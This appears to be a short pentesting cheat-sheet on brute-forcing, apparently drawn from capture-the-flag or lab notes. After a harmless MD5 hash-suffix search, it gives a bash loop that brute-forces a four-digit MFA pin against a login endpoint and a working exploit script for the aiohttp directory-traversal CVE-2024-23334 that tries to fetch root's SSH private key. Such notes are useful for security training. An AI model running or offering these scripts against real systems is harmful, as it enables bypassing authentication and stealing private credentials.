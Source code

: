 # Bruteforcing

## Find a specific hash

Find a hash that ends with your lucky number:

```
  #!/usr/bin/env python3
  from hashlib import md5
  from string import ascii_lowercase
  import itertools
  counter=1
  lucky_number='007'
  while True:
    combos=itertools.combinations_with_replacement(ascii_lowercase,r=counter)
    for combo in combos:
      string="".join(combo)
      h=md5(string.encode("utf-8"))
      the_hash=h.hexdigest()
      if the_hash.endswith(lucky_number):
        print(string,the_hash)
        exit()
    counter+=1
```

## Iterate over pins for MFA codes

Find a 4 digits pin for weak MFA:

```
  for i in {0000..9999};do echo $i; curl -s -X POST --data "code=$i" 10.10.11.44/console/mfa.php --cookie "user=user_name;pwd=egho"|wc|grep -v "1523"; if [ $? -eq 0 ]; then echo BOOM; break; fi;done
```  

## bruteforce http directory traversal

```
#!/bin/bash
# CVE-2024-23334 AioHTTP library =< 3.9.1
url="http://localhost:" # application url
up="../"
port="8080" # application port
path="/assets/" # vulnerable app
payload=$path
target="root/.ssh/id_rsa" # target file
for((i=0;i<20;i++)); do
  payload+="$up"
  echo "[+] Testing $payload/$target"
  status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$port$payload$target")
  echo -e "\tStatus code --> $status_code"
  if [[ $status_code -eq 200 ]]; then
    curl -s --path-as-is "$url$port$payload$target"
    break
  fi
done
```

